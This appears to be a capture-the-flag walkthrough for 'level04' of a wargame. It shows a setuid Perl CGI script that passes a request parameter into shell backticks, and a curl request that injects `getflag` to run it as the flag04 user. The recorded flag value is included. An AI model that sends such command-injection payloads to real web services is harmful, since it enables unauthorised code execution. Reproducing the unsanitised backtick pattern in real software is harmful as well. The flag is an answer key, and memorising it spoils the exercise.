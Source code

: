 # Step1
A Perl script is present in home of `level04`

Same as previous level, we can see that the script is running with the owner's permission who is `flag04`

```bash
ls -l
```

### Result
`-rwsr-sr-x 1 flag04 level04 152 Mar  5  2016 level04.pl`


# Step 2

Below is the content of the script

```Perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```

So we can curl on it like this:

```bash
curl http://localhost:4747?x=\`getflag\`
```

### Result
The curl cmd above runs ` getflag` as `flag04` user and gives us the flag `ne2searoevaevoem4ov4ar8ap`

No password needed for `flag04`
